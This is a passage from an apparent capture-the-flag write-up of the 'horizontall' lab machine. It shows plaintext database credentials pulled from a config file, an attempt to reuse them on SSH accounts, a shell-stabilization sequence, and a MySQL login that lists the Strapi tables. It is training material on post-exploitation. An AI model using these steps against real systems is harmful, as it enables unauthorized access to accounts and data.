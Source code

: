 ```bash
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```
From where we discovered new credentials `developer:#J!:F9Zt2u` and that there should be a mysql database allocated at port 3306. We could first try using these credentials on any of the users found on the ssh server: Failed in all three.
As the system has a mysql binary, we could try to connect to that database with these credentials:
```bash
strapi@horizontall:~/myapi$ which mysql
which mysql
/usr/bin/mysql
strapi@horizontall:~/myapi$ mysql -u developer -p
mysql -u developer -p
Enter password: # '#J!:F9Zt2u'
```
But terminal freezes and remains useless, so we guess we need a proper terminal to access the database. In order to obtain that we are going to achieve an interactive shell:
```bash
strapi@horizontall:~/myapi$ script /dev/null -c bash
strapi@horizontall:~/myapi$ ^Z
❯ stty raw -echo;fg
reset xterm
strapi@horizontall:~/myapi$ export TERM=xterm
```
Now, with a fully interactive shell, we can try to login to the database:
```bash
strapi@horizontall:~/myapi$ mysql -u developer -p
Enter password: # '#J!:F9Zt2u'
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 33
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> connect strapi
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Connection id:    34
Current database: strapi

mysql> show tables;
+------------------------------+
| Tables_in_strapi             |
+------------------------------+
| core_store                   |
| reviews                      |
| strapi_administrator         |
| upload_file                  |
| upload_file_morph            |
| users-permissions_permission |
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
```